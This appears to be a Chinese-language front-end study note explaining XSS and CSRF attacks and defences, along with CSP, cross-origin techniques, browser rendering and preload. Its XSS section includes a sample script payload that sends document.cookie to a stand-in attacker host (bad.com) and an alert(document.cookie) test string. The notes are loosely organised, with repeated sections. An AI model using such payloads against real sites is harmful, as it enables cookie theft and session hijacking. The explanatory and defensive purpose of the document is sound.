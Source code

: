 1、XSS (Cross Site Scripting)，跨站脚本攻击。为了和层叠样式表(Cascading Style Sheets，CSS)区分开，跨站脚本在安全领域叫做 XSS。攻击者往 Web 页面里注入恶意代码，当用户浏览这些网页时，就会执行其中的恶意代码，可对用户进行盗取 cookie 信息、会话劫持、改变网页内容、恶意跳转等各种攻击。XSS 是常见的 Web 攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被 OWASP 列为当前的头号 Web 安全威胁。
举一个简单的例子##
在 a.com 的搜索输入框中输入如下内容，并提交请求
<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
如果前端没有进行过滤，浏览器地址可能变为：
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
http://www.a.com/?query=<script>location.href=http://www.bad.com/?cookie=document.cookie</script>
此时，用户的 cookie 信息已经被发送到攻击者的服务器，攻击者便能利用收集的 cookie 信息来伪造用户身份，进行多种恶意非法操作。
XSS 攻击类型一般分为三种：
1、反射型 XSS
反射型 XSS 只是简单的把用户输入的数据“反射”给浏览器，XSS 脚本出现在 URL 请求参数里，也就是说需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作非持久型 XSS。
2、储存型 XSS
存储型 XSS 也被称为持久型 XSS，当攻击者输入一段恶意脚本后，被服务端接受保存，当用户访问这个页面时，恶意脚本就会被执行，从而造成漏洞。
3、DOM Based XSS
基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况构造 DOM 节点进行 XSS 跨站脚本攻击。
防范 XSS
对于 XSS 攻击，我们可以做如下防范：
1、输入过滤。永远不要相信用户的输入，对用户输入的数据做一定的过滤。如输入的数据是否符合预期的格式，比如日期格式，Email 格式，电话号码格式等等。同时，后台服务器需要在接收到用户输入的数据后，对特殊危险字符进行过滤或者转义处理，然后再存储到数据库中。
2、输出编码。服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范 XSS 攻击。输出 HTML 属性时可以使用 HTML 转义编码（HTMLEncode）进行处理，输出到页面脚本代码中，可以相应进行 Javascript encode 处理。
3、HttpOnly Cookie。预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应用程序在设置 cookie 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
4、WAF(Web Application Firewall)，Web 应用防火墙，主要的功能是防范诸如网页木马、XSS 以及 CSRF 等常见的 Web 漏洞攻击。由第三方公司开发，在企业环境中深受欢迎。

## CSRF
CSRF (Cross Site Request Forgery)，即跨站请求伪造。简单的理解是，攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账等，造成个人隐私泄露，财产损失。<br>
举个例子，受害者用户登录网站 A，输入个人信息，在本地保存服务器生成的 cookie。攻击者构建一条恶意链接，例如对受害者在网站 A 的信息及状态进行操作，典型的例子就是转账。受害者打开了攻击者构建的网页 B，浏览器发出该恶意连接的请求，浏览器发起会话的过程中发送本地保存的 cookie 到网址 A，A 网站收到 cookie，以为是受害者发出的操作，导致受害者的身份被盗用，完成攻击者恶意的目的。<br>

### 防范 CSRF
对于 CSRF 攻击，我们可以做如下防范：<br>
1、验证码。应用程序和用户进行交互过程中，特别是账户交易这种核心步骤，强制用户输入验证码，才能完成最终请求。在通常情况下，验证码够很好地遏制 CSRF 攻击。但增加验证码降低了用户的体验，网站不能给所有的操作都加上验证码。所以只能将验证码作为一种辅助手段，在关键业务点设置验证码。<br>
2、Referer Check。HTTP Referer 是 header 的一部分，当浏览器向 Web 服务器发送请求时，一般会带上 Referer 信息告诉服务器是从哪个页面链接过来的，服务器以此可以获得一些信息用于处理。可以通过检查请求的来源来防御 CSRF 攻击。正常请求的 referer 具有一定规律，如在提交表单的 referer 必定是在该页面发起的请求。所以通过检查 http 包头 referer 的值是不是这个页面，来判断是不是 CSRF 攻击。<br>
3、Anti CSRF Token。目前比较完善的解决方案是加入 Anti-CSRF-Token，即发送请求时在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器建立一个拦截器来验证这个 token。服务器读取浏览器当前域 cookie 中这个 token 值，会进行校验该请求当中的 token 和 cookie 当中的 token 值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。<br>

### CSP(内容安全策略)

CSP(Content Security Policy) 即内容安全策略，主要目标是减少、并有效报告 XSS 攻击，其实质就是让开发者定制一份白名单，告诉浏览器允许加载、执行的外部资源。即使攻击者能够发现可从中注入脚本的漏洞，由于脚本不在白名单之列，浏览器也不会执行该脚本，从而达到了降低客户端遭受 XSS 攻击风险和影响的目的。<br>
默认配置下，CSP 甚至不允许执行内联代码 (<script> 块内容，内联事件，内联样式)，以及禁止执行eval(), setTimeout 和 setInterval。为什么要这么做呢？因为制定来源白名单依旧无法解决 XSS 攻击的最大威胁：内联脚本注入。浏览器无法区分合法内联脚本与恶意注入的脚本，所以通过默认禁止内联脚本来有效解决这个问题。<br>
事实上我们并不推荐使用内联脚本混合的开发方式，使用外部资源，浏览器更容易缓存，对开发者也容易阅读理解，并且有助于编译和压缩。当然，如果不得不需要内联脚本和样式，可以通过设置 unsafe-inline，来解除这一限制。<br>

## XSS(Cross Site Scripting)是跨站脚本攻击，为了区分CSS，所以缩写为XSS。XSS攻击方式是往Web页面插入恶意的 JavaScript 代码，当用户浏览网页的时候，插入的代码就是被执行，从而达到攻击的目的。

其中应用比较多的一个就是，在网页一些公用的交互区域。比如搜索的文本框，除了可以输入一些关键字，还可以输入一些 JavaScript 代码，一旦代码点击搜索，代码就会被执行，达到攻击的目的。如下例子<br>
```<script>alert(document.cookie);</script>```

在文本框中输入以上代码，然后点击提交，就会把用户的cookie弹出来。<br>
### XSS防范
1.将重要的cookies标记为HTTP ONLY，让JavaScript代码无法调用，只有http能调用。或者将重要的信息保存在session里面。<br>
2.只允许用户输入我们期望的数据。如消费金额框只能输入数字和小数点。<br>
3.对数据进行加密处理。<br>
4.过滤或者移除特殊的HTML标签，过滤JavaScript代码等。<br>
### 2、CSRF（Cross-site request forgery）是跨站请求伪造。XSS利用站点内的信任用户，与XSS不同，CSRF是通过伪装来自受信任用户，在受信任的网站进行请求，盗取信息。其实就是攻击者盗用了受害者的身份，以受害者的名义向网站发送恶意请求。

### CSRF的防御
1.在表单里增加Hash值，以认证这确实是用户发送的请求，然后在服务器端进行Hash值验证。<br>
2.验证码：每次的用户提交都需要用户在表单中填写一个图片上的随机字符串。<br>
3.修改，增加重要信息，比如密码，个人信息的操作，尽量使用post。避免使用get把信息暴露在url上面。<br>
5.渲染过程，原理<br>
1.浏览器通过DNS对URL进行解析，找出对应的IP地址；<br>
2.向IP地址发起网络请求，进行http协议会话：客户端发送报头（请求报头），服务端回馈报头（响应报头）<br>
3.服务器根据请求，交给后台处理，处理完成后返回文件数据，浏览器接收文件数据（HTML、JS、CSS、图象等）；返回一个页面（根据页面上的外链的URL重新发送请求获取）<br>
4.浏览器接收文件完毕，对加载到的资源进行语法解析，以及相应的内部数据结构（网页渲染）<br>
### 跨域
1、 jsonp<br>
2、 document.domain + iframe<br>
3、 location.hash + iframe<br>
4、 window.name + iframe<br>
5、 postMessage<br>
6、 跨域资源共享（CORS）<br>
7、 nginx代理<br>
8、 nodejs中间件代理<br><br>
9、 WebSocket协议<br>
# 前端性能优化
1、有一种优化交preload<br>
时候为了提高网页初始加载的性能，我们会选择延迟一部分资源的加载和执行。<br>
preload是一个预加载关键字。它显式地向浏览器声明一个需要提前加载的资源。使用方式如下：<br>

在<head>中写入<link rel="preload" href="some-resource-url" as="xx">（包括用JS创建<link>元素并插入到<head>）<br>

在HTTP头部加上Link: <some-resource-url>; rel=preload; as=xx<br>

当浏览器“看”到这样的声明后，就会以一定的优先级在后台加载资源。加载完的资源放在HTTP缓存中。而等到要真正执行时，再按照正常方式用标签或者代码加载，即可从HTTP缓存取出资源。<br>

使用Preload加载资源的方式有以下几个特点：<br>

提前加载资源<br>

资源的加载和执行分离<br>

不延迟网页的load事件（除非Preload资源刚好是阻塞 window 加载的资源）<br>

### XSS防范
### XSS防范
